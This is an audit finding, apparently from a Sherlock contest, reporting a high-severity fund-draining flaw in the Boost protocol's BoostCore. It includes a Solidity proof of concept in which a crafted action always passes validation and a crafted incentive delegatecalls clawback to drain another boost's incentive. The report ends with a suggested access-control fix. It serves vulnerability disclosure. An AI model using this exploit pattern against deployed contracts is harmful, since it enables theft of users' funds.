 Brilliant Holographic Buffalo

High

# HIGH-02 - Any user that has access to createBoost can drain funds from any budget or any incentives.

### Summary

Any user authorized to call `BoostCore::createBoost()` can create a crafted boost 
that allows him to drain funds from budgets and incentives through `BoostCore::claimIncentivesFor()`.


### Root Cause

_No response_

### Internal pre-conditions

_No response_

### External pre-conditions

_No response_

### Attack Path

_No response_

### Impact

If a boost is created with an action that inherits `AValidator` and can make `validate()` to return always 
true bypassing [this line](https://github.com/sherlock-audit/2024-06-boost-aa-wallet/blob/main/boost-protocol/packages/evm/contracts/BoostCore.sol#L176). 
Then on the following [line](https://github.com/sherlock-audit/2024-06-boost-aa-wallet/blob/main/boost-protocol/packages/evm/contracts/BoostCore.sol#L177),the `claim()` can call a crafted function deployed as an incentive that `delegatescall` to other contracts. As `msg.sender` will remain as `BoostCore`, all incentives methods under `onlyOwner` are able to be called. Specifically, calling `clawback()` will allow someone to drain any incentives funds. Also budgets, 
can be drain as long as `BoostCore` is allowed to call `budget.disburse()` or `budget.clawback()`.


### PoC

In the following example, a crafted incentive called `ExploitIncentive` is deployed
with the following logic in `claim()`:

```solidity
    /// @notice Claim the incentive
    /// @param claimTarget the address receiving the claim
    /// @return True if the incentive was successfully claimed
    function claim(address claimTarget, bytes calldata _data) external override onlyOwner returns (bool) {
      bytes memory encodedFunctionCall = abi.encodeWithSignature("clawback(bytes)", _data);
      claimTarget.delegatecall(encodedFunctionCall);
      return true;
    }
```

Also, a crafted action is deployed called `ExploitAction` bypassing `validate()`: 
```solidity
contract ExploitAction is AContractAction, AValidator {
    /// @inheritdoc ACloneable
    /// @notice Initialize the contract with the owner and the required data
    function initialize(bytes calldata data_) public virtual override initializer {
        _initialize(abi.decode(data_, (InitPayload)));
    }

    function _initialize(InitPayload memory init_) internal virtual onlyInitializing {
        chainId = init_.chainId;
        target = init_.target;
        selector = init_.selector;
        value = init_.value;
    }
    /// @inheritdoc AContractAction
    function getComponentInterface() public pure virtual override(AContractAction, AValidator) returns (bytes4) {
        return type(AERC721MintAction).interfaceId;
    }

    /// @inheritdoc AContractAction
    function supportsInterface(bytes4 interfaceId)
        public
        view
        virtual
        override(AContractAction, AValidator)
        returns (bool)
    {
        return interfaceId == type(AERC721MintAction).interfaceId || super.supportsInterface(interfaceId);
    }
    function validate(uint256, /*unused*/ uint256, /* unused */ address, /*unused*/ bytes calldata data_)
        external
        virtual
        override
        returns (bool success)
    {
      return true;
    }
}

```

Finally, crafted `boost` is deployed to drain incentives.
```solidity
    function testCreateBoost_ExploitIncentives() public {
    
        BoostLib.Boost memory boost1 = boostCore.createBoost(validCreateCalldata);

        BoostLib.Target[] memory incentives = new BoostLib.Target[](1);
        incentives[0] = BoostLib.Target({
          isBase: true,
          instance: address(new ExploitIncentive()),
          parameters: abi.encode(
            ERC20Incentive.InitPayload({
              asset: address(mockERC20),
              strategy: AERC20Incentive.Strategy.POOL,
              reward: 1 ether,
              limit: 100
            })
          )
        });

        mockERC20.mint(address(this), 100 ether);
        mockERC20.approve(address(budget), 100 ether);
        budget.allocate(
            abi.encode(
                ABudget.Transfer({
                    assetType: ABudget.AssetType.ERC20,
                    asset: address(mockERC20),
                    target: address(this),
                    data: abi.encode(ABudget.FungiblePayload({amount: 100 ether}))
                })
            )
        );

        
        bytes memory createData = LibZip.cdCompress(
            abi.encode(
                BoostCore.InitPayload({
                    budget: budget,
                    action: BoostLib.Target({
                          isBase: true,
                          instance: address(new ExploitAction()),
                          parameters: abi.encode(
                              AContractAction.InitPayload({chainId: block.chainid, target: address(0), selector: "", value: 0})
                          )
                    }),
                    validator: BoostLib.Target({isBase: true, instance: address(0), parameters: ""}),
                    allowList: allowList,
                    incentives: incentives,
                    protocolFee: 500, // 5%
                    referralFee: 1000, // 10%
                    maxParticipants: 10_000,
                    owner: address(1)
                })
            )
        );
        BoostLib.Boost memory boost2 = boostCore.createBoost(createData);
      
        bytes memory payload = 
            abi.encode(AIncentive.ClawbackPayload({target: address(2), data: abi.encode(50 ether)}));
        // @audit - Take a look here we use our crafted boost2 to drain boost1.incentives[0]
        // but this could be repeated for budgets as long as BoostCore can call the methods.
        boostCore.claimIncentiveFor{value: 0.000075 ether}(1, 0, address(0), payload , address(boost1.incentives[0]));

    }

```


### Mitigation

Consider restricting access to `incentives.clawback()`, `budget.clawback()` and `budget.disburse()`
from `BoostCore` calls and implement a manager role that is allowed to execute those functions. 
Budget implements `accessControls` for a manager role, but incentives 
do not, they are only callable by `onlyOwner` which is `BoostCore` due to initialization. 
Consider adding a manager role for `incentives` that can execute those functions.
